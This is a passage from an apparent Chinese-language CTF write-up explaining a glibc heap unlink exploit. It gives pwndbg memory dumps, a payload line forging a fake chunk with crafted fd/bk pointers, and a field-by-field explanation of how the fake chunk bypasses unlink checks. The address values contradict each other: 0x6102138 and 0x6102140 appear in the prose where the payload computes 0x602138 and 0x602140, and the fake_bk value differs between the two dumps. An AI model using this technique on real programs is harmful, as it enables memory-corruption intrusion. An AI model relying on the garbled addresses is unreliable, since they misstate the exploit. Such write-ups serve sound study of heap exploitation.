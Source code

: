 ```powershell
...（省略内容均为空）
0xe06f30:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

因此，当payload执行的时候，会写入到buffer_zone1(缓冲区1)中，payload执行之后会出现如下情况：

```powershell
pwndbg> x/1000gx 0xe05000
0xe05000:	0x0000000000000000	0x0000000000000411  #buffer_zone1(缓冲区1)
0xe05010:	0x0000000000000000	0x0000000000000030
0xe05020:	0x0000000006102138	0x0000000006102130
0xe05030:	0x6161616161616161	0x6161616161616161
0xe05040:	0x0000000000000030	0x0000000000000090
0xe05050:	0x0000000000000000	0x0000000000000000
0xe05060:	0x0000000000000000	0x0000000000000000

#payload = p64(0) + p64(0x30) + p64(0x602140 + 16 - 0x18) + p64(0x602140 + 16 - 0x10) + 'a' * 0x10 + p64(0x30) + p64(0x90)
#edit(2, len(payload), payload)
```

> 看一下上面的代码框，payload虽然在“表面上”写入了缓冲区1中，但最后是会写入到chunk2中，以下的表述均以缓冲区1来体现。（注：不同的Linux版本、不同的libc文件可能对堆（缓冲区、malloc_chunk）的管理方式不同）
>

将他看作为一个chunk：

```powershell
pwndbg> x/1000gx 0xe05000
0xe05000:	0x0000000000000000	0x0000000000000411  #buffer_zone1(缓冲区1)
#buffer_zone1_data_start
0xe05010:	0x0000000000000000	0x0000000000000030  #fake_prev_size;fake_size
0xe05020:	0x0000000006102138	0x0000000006102140  #fake_fd;fake_bk
0xe05030:	0x6161616161616161	0x6161616161616161  #fake_fd_nextsize;fake_bk_nextsize
0xe05040:	0x0000000000000030	0x0000000000000090  #next_chunk_prev_size;next_chunk_size
0xe05050:	0x0000000000000000	0x0000000000000000
0xe05060:	0x0000000000000000	0x0000000000000000，
#payload = p64(0) + p64(0x30) + p64(0x602140 + 16 - 0x18) + p64(0x602140 + 16 - 0x10) + 'a' * 0x10 + p64(0x30) + p64(0x90)
#edit(2, len(payload), payload)
```

解释一下这个代码框中出现的内容：

+ p(64)：我们只想在释放相邻内存堆块的时候向前合并fake_chunk，并且不需要合并某一内存堆块，所以将fake_chunk的prev_size置0就行。
+ p64(0x30)：fake_chunk仅仅需要fd和bk就可以完成unlink的流程，后面的next_prev和next_size仅仅为了检查时候的使用，所以将size的大小等于0x30就行
+ next_chunk_prev_size：这里其实就是为了绕过检查，证明fake_chunk是一个空闲块，所以next_prev要等于size，即0x30
+ next__chunk_size：随便设置一个数字，使二进制最低标志位P为0即可

但是为什么要将fake_chunk的fd和bk设置成0x6102138和0x6102140呢？

从前面的静态分析可以知道存放堆地址指针地址为：0x6102140，具体内容如下：

```powershell
pwndbg> x/16gx 0x602140
0x602140:	0x0000000000000000	0x0000000000e05420 #chunk1_data_ptr
0x602150:	0x0000000000e05940	0x0000000000e05980 #chunk2_data_ptr and chunk3_data_ptr
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
pwndbg>
```
